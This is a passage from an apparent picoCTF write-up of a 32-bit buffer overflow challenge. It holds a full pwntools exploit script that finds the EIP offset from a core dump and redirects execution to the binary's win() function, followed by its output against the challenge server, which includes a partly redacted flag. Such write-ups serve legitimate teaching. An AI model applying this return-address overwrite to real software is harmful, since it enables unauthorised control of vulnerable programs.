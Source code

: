 '0x6161616c'
</pre></td></tr></table></figure>
</figure>

Now that we know how ELF objects and core dumps work, let's apply them to our previous script. Another cool helper I would like to implement is [`flat()`](https://docs.pwntools.com/en/stable/util/packing.html) (which has a great tutorial [here](https://www.youtube.com/watch?v=AMDbbuLaXfk), referred to by the legacy alias `fit()`), which flattens arguments given in lists, tuples, or dictionaries into a string with `pack()`. This will help us assemble our payload without needing to concatenate seemingly random strings of `A`s and little-endian addresses, increasing readability.

This is my final, completely automated script:

{% codeblock lang:py buffer-overflow-1-automated.py https://gist.github.com/jktrn/b1586f403c6ae31ce0e128b8f96faad6 <span style="color:#82C4E4">[github gist link]</span> %}
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)    # sets elf object
host, port = 'saturn.picoctf.net', [PORT]

p = process(elf.path)        # references elf object
p.sendline(cyclic(128))      # sends cyclic pattern to crash
p.wait()                     # sigsegv generates core dump
core = Coredump('./core')    # parse core dump file

payload = flat({
    cyclic_find(core.eip): elf.symbols.win    # offset:address
})

if args.REMOTE:    # remote process if arg
    p = remote(host, port)
else:
    p = process(elf.path)

p.sendline(payload)
p.interactive()    # receives flag
{% endcodeblock %}

Let's run the script on the server:

<figure class="highlight plaintext"> <table> <tr> <td class="code"><pre style="white-space: pre-wrap"><span class="meta prompt_">$ </span>python3 buffer-overflow-1-automated.py REMOTE
[<span style="color:#47D4B9"><b>+</b></span>] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln': pid 2601
[<span style="color:#277FFF"><b>*</b></span>] Process '/home/kali/ctfs/pico22/buffer-overflow-1/vuln' stopped with exit code -11 (SIGSEGV) (pid 2601)
[<span style="color:#47D4B9"><b>+</b></span>] Parsing corefile...: Done
[<span style="color:#277FFF"><b>*</b></span>] '/home/kali/ctfs/pico22/buffer-overflow-1/core'
    Arch:      i386-32-little
    EIP:       0x6161616c
    ESP:       0xff829260
    Exe:       '/home/kali/ctfs/pico22/buffer-overflow-1/vuln' (0x8048000)
    Fault:     0x6161616c
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to saturn.picoctf.net on port <span style="color:#696969"><b>[PORT]</b></span>: Done
[<span style="color:#277FFF"><b>*</b></span>] Switching to interactive mode
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_<span style="color:#696969"><b>[REDACTED]</b></span>}[<span style="color:#277FFF"><b>*</b></span>] Got EOF while reading in interactive
</pre></td></tr></table></figure>
